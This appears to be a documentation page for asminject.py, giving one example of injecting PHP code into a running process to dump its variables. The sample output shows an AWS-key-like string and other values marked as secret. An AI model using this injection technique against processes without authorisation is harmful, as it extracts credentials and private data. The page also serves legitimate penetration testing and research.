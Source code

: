 # asminject.py examples - PHP
* [Write all variables to standard out](#write-all-variables-to-standard-out)

## Write all variables to standard out

Use [the following PHP code, which was based on this Stack Overflow discussion](https://stackoverflow.com/questions/1005021/in-php-is-there-a-way-to-dump-all-variable-names-with-their-corresponding-valu)

```
var_dump(get_defined_vars());
```

e.g.

```
python3 ./asminject.py 249986 execute_php_code.s --arch x86-64 --relative-offsets relative_offsets-php8.1.txt  --stop-method "slow" --var phpcode "var_dump(get_defined_vars());" --var phpname PHP
```


Example output:

```
2022-06-09T16:18:04-0700 - Loop count 8
array(11) {
  ["_GET"]=>
  array(0) {
  }
  ["_POST"]=>
  array(0) {
  }
  ["_COOKIE"]=>
  array(0) {
  }
  ["_FILES"]=>
  array(0) {
  }
  ["argv"]=>
  array(1) {
    [0]=>
    string(21) "practice/php_loop.php"
  }
...omitted for brevity...
["example_global_var_1"]=>
  string(20) "AKIASADF9370235SUAS0"
  ["example_global_var_2"]=>
  string(34) "This value should not be disclosed"
  ["x"]=>
  int(8)
  ["current_timestamp"]=>
  string(24) "2022-06-09T16:18:04-0700"
}
2022-06-09T16:18:13-0700 - Loop count 9
```

